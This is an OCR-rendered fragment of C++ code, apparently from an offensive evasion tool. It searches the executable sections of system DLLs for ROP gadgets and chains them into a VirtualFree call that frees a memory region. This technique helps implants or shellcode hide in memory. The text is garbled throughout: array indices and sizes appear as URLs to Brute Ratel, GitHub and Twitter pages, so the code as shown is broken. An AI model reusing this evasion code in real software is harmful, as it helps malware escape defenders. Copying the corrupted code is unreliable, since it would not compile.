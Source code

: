 ```cpp
    
    */

    // Our ROP will be constituted by 7 chunks of 8 bytes each
    UCHAR ropChain[N_ROP_GADGETS * 8] = {0};

    UINT64 moduleAddresses(https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/) = {(UINT64)msvcrtdll, (UINT64)ntdll, (UINT64)kernel32dll};

    UINT found[N_ROP_GADGETS] = { FALSE };
    UINT moduleIndex = 0;

    /*
   <<POP RCX; RET;> GADGET>
   <<RX-SECTION-ADDRESS> REVERSED>
   <<POP RDX; RET;> GADGET>
   \x00\x00\x00\x00\x00\x00\x00\x00
   <<POP R8; RET;> GADGET>
   \x00\x00\x08\x00\x00\x00\x00\x00
   <<VirtualFree> ADDRESS-OF>
   */

    // Some indexes are static and can be populated immediately
    // The second chunk is the address to free
    _Hton((ULONG64)address, ropChain, 1 * 8);
    found(https://github.com/klezVirus/inceptor.git) = TRUE;
    // The fourth chunk is 0
    found(https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/) = TRUE;
    // The sixth chunk is MEM_RELEASE
    ropChain[5 * 8 + 1] = 0x80;
    found(https://twitter.com/Idov31) = TRUE;

    // The last chunk is VirtualFree address
    _Hton((ULONG64)VirtualFreeFunc, ropChain, 6 * 8);
    found(https://twitter.com/hasherezade) = TRUE;

    while (!Finished(found) && moduleIndex < sizeof(moduleAddresses)) {

        // We select a module to search in and start
        LPBYTE moduleMath = (LPBYTE)moduleAddresses[moduleIndex];
        MEMORY_BASIC_INFORMATION memInfo = { 0 };

        // Query memory to know the size of the module
        while (VirtualQueryFunc((PVOID)moduleMath, &memInfo, sizeof(memInfo)) != 0) {
            if (memInfo.Protect != PAGE_EXECUTE_READ && memInfo.Protect != PAGE_EXECUTE_READWRITE) {
                moduleMath += memInfo.RegionSize;
                continue;
            }
            LPVOID gadget;

            for (UINT x = 0; x < memInfo.RegionSize; x++) {
                if (memcmpFunc(moduleMath + x, POP_RCX_RET, 2) == 0 && !found[0]) // POP RCX, RET
                {
                    _Hton((ULONG64)moduleMath + x, ropChain, 0 * 8);
                    found[0] = TRUE;
                }
                else if (memcmpFunc(moduleMath + x, POP_RDX_RET, 2) == 0 && !found(https://github.com/Idov31/FunctionStomping)) // POP RDX, RET
                {
                    _Hton((ULONG64)moduleMath + x, ropChain, 2 * 8);
                    found(https://github.com/Idov31/FunctionStomping) = TRUE;
                }
```
